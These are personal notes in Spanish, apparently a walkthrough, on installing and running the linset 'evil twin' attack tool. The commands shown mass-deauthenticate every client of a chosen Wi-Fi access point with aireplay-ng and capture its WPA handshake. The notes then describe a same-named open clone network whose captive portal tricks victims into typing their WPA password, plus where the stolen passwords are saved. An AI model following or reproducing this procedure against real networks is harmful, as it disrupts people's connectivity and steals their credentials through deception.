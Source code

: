 git co https://github.com/vk496/linset.git
cd linset
chmod a+x linset
vi linset
Buscar "egrep -a" y cambiar por "egrep -w -a"
  Sin este cambio se puede colar alguna red que lleve la palabra Cliente

Requisitos arch:
pacman -S community/aircrack-ng community/hostapd extra/lighttpd extra/xterm community/macchanger extra/php-cgi extra/dhcp community/scapy
packer -S mdk3 pyrit


Algo tipo:
airmon-ng start xxx
Arranca esta interfaz en modo promiscuo
25: mon0: <BROADCAST,ALLMULTI,PROMISC,NOTRAILERS,UP,LOWER_UP> mtu 1500 qdisc mq state UNKNOWN group default qlen 1000
    link/ieee802.11/radiotap 74:de:2b:ef:5b:71 brd ff:ff:ff:ff:ff:ff

vk496 ->
  choosescan ->
    Scan ->
      Scaneo redes:
      airodump-ng -w /tmp/TMPlinset/dump -a mon0
      Cuando hayamos visto la que queremos podemos cerrar la xterm
    selection ->
      elegimos red
      askAP ->
        elegir tipo de HostAP: recomienda hostapd
        handshakelocation ->
          Nos pregunta si tenemos ya un .cap, si decimos que no
          deauthforce ->
            Pregunta que tipo usar, elegimos pyrit
            handshakemode="hard"; askclientsel ->
              Tipo de deauth a utilizar, elegimos "Realizar desaut. masiva al AP objetivo"
              Esto empieza un escaneo, y en paralelo deautentica a todos los usuarios para que se tengan que volver a conectar
              deauth all ->
                capture & deauthall
                CSVDB=$Host_MAC-01.csv
                capture:
                  airodump-ng --bssid $Host_MAC -w $DUMP_PATH/$Host_MAC -c $Host_CHAN -a $WIFI_MONITOR &
                deauthall:
                  aireplay-ng --deauth $DEAUTHTIME -a $Host_MAC --ignore-negative-one $WIFI_MONITOR &
              deauthMENU
                Nos pregunta si se capturo el handshake (aparece en una de las xterm, arriba a la izquierda)
                Si damos a "Si" -> checkhandshake -> (mira que se haya capturado un handshake)
                  cp $DUMP_PATH/$Host_MAC-01.cap $DUMP_PATH/test.cap
                  pyrit -r $DUMP_PATH/test.cap analyze 2>&1 | grep -q "good,"
                    Ejecutando manualmente veo que me puede dar estos errores:
                      IOError: libpcap-error while reading: truncated dump file; tried to read 16 header bytes, only got 2
                      IOError: libpcap-error while reading: truncated dump file; tried to read 847 captured bytes, only got 670
                      Tengo que esperar un rato para que capture suficiente información.
Una vez que esto ha funcionado, arrancará el "web interface"
Esto lo que hace es crear una red del mismo nombre pero sin auth.
Cuando el cliente ve que no puede conectarse a la suya (porque el airocrack le está haciendo deauth todo el rato), verá que hay otra red con el mismo nombre pero sin auth (a mi con android no se ha seleccionado automáticamente). Si se conecta ahí, le saldrá un portal cautivo donde le pedirá la password de la WPA.
Si la mete, se comprobará la password atacando a la captura que ya tenemos, y en caso de ser correcta, le saltará un mensaje de que ahora se conecta, se desmonta el hostap y se deja al cliente conectarse a su red normal.

Si el programa no nos da la password, mirar en
/tmp/TMPlinset/data.txt



